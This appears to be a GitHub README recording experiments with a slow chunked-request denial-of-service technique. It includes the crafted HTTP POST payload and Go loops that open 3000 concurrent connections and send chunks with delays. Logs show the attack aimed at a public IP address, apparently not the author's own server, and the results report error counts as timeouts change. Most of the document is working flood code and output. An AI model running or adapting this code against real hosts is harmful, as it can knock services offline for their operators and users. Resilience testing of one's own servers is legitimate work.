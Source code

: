 # Anti-ddos attack

Created with [ProshNad](https://github.com/ProshNad)

## Main idea
Send chunked requests with some timeout. Will connection closed or not? If not, we will try to create 3000+ clients and start them to send those requests

We have such message:

```go
msg := []string{"POST / HTTP/1.1\r\n" +
    "Host: debian\r\n" +
    "Content-Type: text/html\r\n" +
    "Transfer-Encoding: chunked\r\n" +
    "4\r\n",
    "test77776767667\r\n",
    "0\r\n",
    "\r\n",
}
```

All chunks will be sent with timeout between them

## Results

### Send 1 chunked request with timeout between chunks

```go
con, closeFunc := newConn()
defer closeFunc()

_, err := sendChunkedRequest(con, i, time.Second*1)
if err != nil {
    log.Printf("client %d with addr %v got err: %v \n", i, con.LocalAddr(), err)
}
```
Successfully sent

### Send 3000 parallel requests with 2seconds timeout between chunks

```go
for i := 1; i < 3000; i++ {
    wt.Add(1)

    go func(i int) {
        con, closeFunc := newConn()
        defer closeFunc()

        _, err := sendChunkedRequest(con, i, time.Second*2)
        if err != nil {
            errCount++
            log.Printf("client %d with addr %v got err: %v \n", i, con.LocalAddr(), err)
        } else {
            goodCount++
        }

        wt.Done()
    }(i)
}
```
Some of them got error: `client 1325 with addr 192.168.1.83:49905 got err: can't write, err write tcp 192.168.1.83:49905->142.250.201.209:80: write: broken pipe `
It seems the server closed connection. Perhaps it has timeout for getting all request.

```shell
total errCount 0
total goodCount 2999
```

Try to set timeout between creating clients

### Send 3000 parallel requests with 10milliseconds timeout between creating clients

```go
for i := 1; i < 3000; i++ {
    wt.Add(1)

    go func(i int) {
        con, closeFunc := newConn()
        defer closeFunc()

        _, err := sendChunkedRequest(con, i, time.Second*2)
        if err != nil {
            errCount++
            log.Printf("client %d with addr %v got err: %v \n", i, con.LocalAddr(), err)
        } else {
            goodCount++
        }

        wt.Done()
    }(i)
	
	time.Sleep(time.Millisecond*10)
}
```

```shell
total errCount 0
total goodCount 2999
```

### Send 3000 parallel requests with 10milliseconds timeout between creating clients and 10 seconds between chunks
```shell
total errCount 0
total goodCount 2999
```

Let's try to modify our message: we duplicate it.

We have such message:

```go
msg := []string{"POST / HTTP/1.1\r\n" +
    "Host: debian\r\n" +
    "Content-Type: text/html\r\n" +
    "Transfer-Encoding: chunked\r\n" +
    "4\r\n",
    "test77776767667\r\n",
    "0\r\n",
    "\r\n",
	"POST / HTTP/1.1\r\n" +
	"Host: debian\r\n" +
    "Content-Type: text/html\r\n" +
    "Transfer-Encoding: chunked\r\n" +
    "4\r\n",
    "test77776767667\r\n",
    "0\r\n",
    "\r\n",
}
```

### Send 3000 parallel 2x-requests with 2seconds timeout between chunks 

```go
for i := 1; i < 3000; i++ {
    wt.Add(1)

    go func(i int) {
        con, closeFunc := newConn()
        defer closeFunc()

        _, err := sendChunkedRequest(con, i, time.Second*2)
        if err != nil {
            errCount++
            log.Printf("client %d with addr %v got err: %v \n", i, con.LocalAddr(), err)
        } else {
            goodCount++
        }

        wt.Done()
    }(i)
}
```
Some of them got error: `client 1325 with addr 192.168.1.83:49905 got err: can't write, err write tcp 192.168.1.83:49905->142.250.201.209:80: write: broken pipe `
It seems the server closed connection. Perhaps it has timeout for getting all request.

Results
```shell
total errCount 856
total goodCount 2141
```

### Send 3000 parallel 2x-requests with 5seconds timeout between chunks

```go
for i := 1; i < 3000; i++ {
    wt.Add(1)

    go func(i int) {
        con, closeFunc := newConn()
        defer closeFunc()

        _, err := sendChunkedRequest(con, i, time.Second*5)
        if err != nil {
            errCount++
            log.Printf("client %d with addr %v got err: %v \n", i, con.LocalAddr(), err)
        } else {
            goodCount++
        }

        wt.Done()
    }(i)
}
```

Results
```shell
total errCount 2756
total goodCount 234
```

Error count was increased.

### Send 3000 parallel 2x-requests with 10seconds timeout between chunks

Results
```shell
total errCount 2999
total goodCount 0
```

## Conclusion
It seems that the server has timeout for getting full chunked request. With timeout increasing between chunks errors count are increasing. Different results in the same test mean that by means of asynchrony, some requests are executed quickly, and some are longer than expected. therefore, some fall under the time limit, while others do not. As the timeout increases, there are more and more errors.